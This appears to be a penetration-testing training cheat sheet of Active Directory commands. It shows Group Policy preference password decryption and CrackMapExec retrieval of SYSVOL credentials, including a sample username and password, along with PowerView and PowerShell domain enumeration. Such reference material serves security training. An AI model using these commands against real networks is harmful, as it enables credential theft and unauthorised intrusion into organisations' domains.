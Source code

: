 **Group Policy Enumeration & Attacks**

`gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE`

> Tool used to decrypt a captured `group policy preference password` from a Linux-based host.

`crackmapexec smb -L | grep gpp`

> Locates and retrieves a `group policy preference password` using `CrackMapExec`, the filters the output using `grep`. Peformed from a Linux-based host.

`crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin`

> Locates and retrieves any credentials stored in the `SYSVOL` share of a Windows target using `CrackMapExec` from a Linux-based host.

`Get-DomainGPO | select displayname`

> PowerView tool used to enumerate GPO names in a target Windows domain from a Windows-based host.

`Get-GPO -All | Select DisplayName`

> PowerShell cmd-let used to enumerate GPO names. Performed from a Windows-based host.

`$sid=Convert-NameToSid "Domain Users"`

> Creates a variable called `$sid` that is set equal to the `Convert-NameToSid` tool and specifies the group account `Domain Users`. Performed from a Windows-based host.

`Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid`

> PowerView tool that is used to check if the `Domain Users` (`eq $sid`) group has any rights over one or more GPOs. Performed from a Windows-based host.

`Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532`

> PowerShell cmd-let used to display the name of a GPO given a `GUID`. Performed from a Windows-based host.

**Internal Enumeration**

`Get-Module`

> PowerShell cmd-let used to list all available modules, their version and command options from a Windows-based host.

`Import-Module ActiveDirectory`

> Loads the `Active Directory` PowerShell module from a Windows-based host.

`Get-ADDomain`

> PowerShell cmd-let used to gather Windows domain information from a Windows-based host.

`Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`

> PowerShell cmd-let used to enumerate user accounts on a target Windows domain and filter by `ServicePrincipalName`. Performed from a Windows-based host.

`Get-ADTrust -Filter *`

> PowerShell cmd-let used to enumerate any trust relationships in a target Windows domain and filters by any (`-Filter *`). Performed from a Windows-based host.
